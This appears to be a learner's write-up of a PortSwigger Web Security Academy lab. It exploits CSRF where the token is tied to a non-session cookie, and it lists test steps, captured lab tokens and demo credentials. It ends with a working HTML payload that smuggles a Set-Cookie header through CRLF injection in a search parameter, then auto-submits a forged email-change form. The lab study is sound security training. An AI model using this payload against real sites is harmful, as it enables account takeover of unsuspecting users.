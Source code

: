 Vulnerable parameter - email change functionality
Goal - exploit CSRF to change email address
Creds - wiener:peter, carlos:montoya

In order for a CSRF attack to be possible:
- A relevant action: change a users email
- Cookie-based session handling: session cookie
- No unpredictable request parameters 

Testing CSRF Tokens:
1. Remove the CSRF token and see if application accepts request
2. Change the request method from POST to GET
3. See if csrf token is tied to user session

Testing CSRF Tokens and CSRF cookies:
1. Check if the CSRF token is tied to the CSRF cookie
   - Submit an invalid CSRF token
   - Submit a valid CSRF token from another user
2. Submit valid CSRF token AND cookie from another user

csrf token: SXsROOTp3jzq6M5UzIL2KkJIqGpffIQb
csrf cookie: ho7GGxMe4EZSrQ8xZ0sBDq2yW0ey9bKH

In order to exploit this vulnerability, we need to perform 2 things:
1. Inject a csrf cookie in the user's session (HTTP Header injection) - satisfied
2. Send a CSRF attack to the victim with a known csrf token


- after taking a valid csrf token and cookie from another user we have to inject the csrf cookie into header (we will use search functionality in order to see if a search cookie parameter is generated and we will inject over there)
	![[Pasted image 20240922003407.png]]

![[Pasted image 20240922003858.png]]

![[Pasted image 20240922010507.png]]

- HTML payload (form action= https://HOST/POST (change email request - first tab) | 
               img src= https://HOST/POST(injected header - second tab) )
```
<html>
    <body>
        <h1>Hello World!</h1>
        <form action="https:///0a33009903154da184367954005e0013.web-security-academy.net/my-account/change-email" method="post" id="csrf-form">
            <input type="hidden" name="email" value="test5@test.ca">
            <input type="hidden" name="csrf" value="UYjqwyyGyrsnr8qGu5adRFltwGbIS8S6">
        </form>

        <img src="https://0a33009903154da184367954005e0013.web-security-academy.net/?search=hat%0d%0aSet-Cookie:%20csrfKey=04WkQgPVzQFtURvOaoJEwc04UjhQb5Gb%3b%20SameSite=None" onerror="document.forms[0].submit()">
    </body>
```
